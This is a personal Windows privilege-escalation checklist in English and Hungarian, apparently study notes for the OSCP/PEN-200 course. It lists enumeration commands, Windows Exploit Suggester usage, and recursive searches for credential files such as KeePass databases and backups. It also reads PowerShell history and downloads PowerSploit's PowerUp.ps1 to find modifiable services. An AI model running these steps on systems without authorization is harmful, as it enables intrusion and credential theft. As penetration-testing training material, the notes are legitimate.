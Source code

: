 # Windows Privilege Escalation Checklist
## Situational Awareness
* Hostname, username, current user - privileges and group memberships, current dir, common dirs, etc...
  * hostname
  * whoami
  * whoami /priv
  * whoami /groups
  * cd, dir, dir C:\, dir C:\Users, tree /F
* Existing users and groups
  * net user
  * net user User1
  * net localgroup
  * net localgroup Administrators
  * query user
* Operating system, version and architecture
  * systeminfo
  * ver
* Network information
  * ipconfig /all
  * netstat -ano
  * route print
  * arp -a
* Shared resources (not only folders, but printers and other hosts too through SMB)
  * net share
  * net view
* Running processes
  * tasklist
  * tasklist /svc
* Installed applications
  * WMIC
    * C:\> wmic [ENTER] product get name, version [ENTER]
    * varni kell egy kicsit, nem ad egybol eredmenyt
    * lehet erdemes redirectelni az eredmenyt egy file-ba (product get name, version > output.txt)
  * Powershell
  <pre>
  PS> Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
  PS> Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
  </pre>
  * Listing C - Program Files folders
    * C:\> dir "C:\Program Files"
    * C:\> dir "C:\Program Files (x86)"
## Windows Exploit Suggester (new)
* deprecated repo
  * https://github.com/AonCyberLabs/Windows-Exploit-Suggester
* new repo (new fork of the original)
  * https://github.com/7Ragnarok7/Windows-Exploit-Suggester-2
  * elvileg sima python1-el kene futtatni
  * errors:
    * E: Package 'python-xlrd' has no installation candidate
    * 
## Windows Exploit Suggester (old)
### info
* Source: (sajnos nincs meg hogy honnan szedtuk, de python file, az tuti)
* ennyi info van rola, a file header reszeben
<pre>
# Windows Exploit Suggester
# revision 3.3, 2017-02-13
#
# author: Sam Bertram, Gotham Digital Science
# contact: labs@gdssecurity.com,sbertram@gdssecurity.com,sammbertram@gmail.com
# blog post: "Introducing Windows Exploit Suggester", http://blog.gdssecurity.com/
# Blog Post: "Introducing Windows Exploit Suggester", https://blog.gdssecurity.com/labs/2014/7/11/introducing-windows-exploit-suggester.html
</pre>
### method
* ha python hiba van, akkor
  * python3-al probaljuk meg futtatni
    * sudo apt install python3-xlrd
    * kell bele plusz 1 sor
      * from io import StringIO
  * pip install xlrd --upgrade
<pre>
<b># victim machine</b>
C:\> systeminfo
(copy output to a txt file on attack machine)

<b># attack machine</b>
$ ./windows-exploit-suggester.py --update

$ ./windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --systeminfo sysinfo.txt
(vagy)
$ python3 windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --systeminfo sysinfo.txt
</pre>
## File permissions
* cmd
<pre>
C:\> icacls "C:\Users\user1\desktop\test.exe"
C:\Users\user1\desktop\test.exe
BUILTIN\Administrators:(F)
NT AUTHORITY\SYSTEM:(F)
BUILTIN\Users:(RX)
NT AUTHORITY\Authenticated Users:(RX)
Successfully processed 1 files; Failed processing 0 files
</pre>
* powershell
<pre>
PS> Get-Acl "C:\Users\user1\desktop\test.exe"
...
</pre>
## Searching Files and Folders
* Searching files by extension
<pre>
PS> Get-ChildItem -Path C:\ -Include *.txt,*.ini,*.conf,*.xml,*.json,*.yml,*.yaml,*.kdbx,*.bak,*.bck,*.old -File -Recurse -ErrorAction SilentlyContinue
PS> Get-ChildItem -Path C:\ -Include *.bat,*.vbs,*.js,*.asp,*.aspx,*.js,*.ps1,*.psm1,*.php,*.jar,*.jsp -File -Recurse -ErrorAction SilentlyContinue
PS> Get-ChildItem -Path C:\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.xlsm,*.doc,*.docx,*.docm,*.ppt,*.pptx -File -Recurse -ErrorAction SilentlyContinue
PS> Get-ChildItem -Path C:\ -Include *.rar,*.zip,*.iso,*.tar,*.7z -File -Recurse -ErrorAction SilentlyContinue
</pre>
* Searching 'modifiable service files' (with Powersploit's PowerUp.ps1)
<pre>
PS> Invoke-WebRequest -Uri "https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1" -OutFile .\PowerUp.ps1
PS> Import-Module .\PowerUp.ps1
PS> Get-ModifiableServiceFile
</pre>
## Powershell history
<pre>
PS> Get-History

PS> (Get-PSReadlineOption).HistorySavePath
C:\Users\dave\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

PS> type C:\Users\dave\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
</pre>
## Service Binary Hijacking
* PEN200.pdf 500. oldal...
## Service DLL Hijacking
* PEN200.pdf 507. oldal...
## Unquoted Service Paths
* PEN200.pdf 514. oldal...
## Scheduled Tasks
* PEN200.pdf 520. oldal...
## Common vulnerabilites and exploits
* Juicy Potato
* Printspoofer
* 
## Usefull sources
* Relevant HTB Academy modules
  * Active Directory Enumeration & Attacks
  * Windows Fundamentals
  * Introduction To Windows Command Line
  * Windows Privilege Escalation
* Other sources
  * PEN200.pdf (OSCP guide)
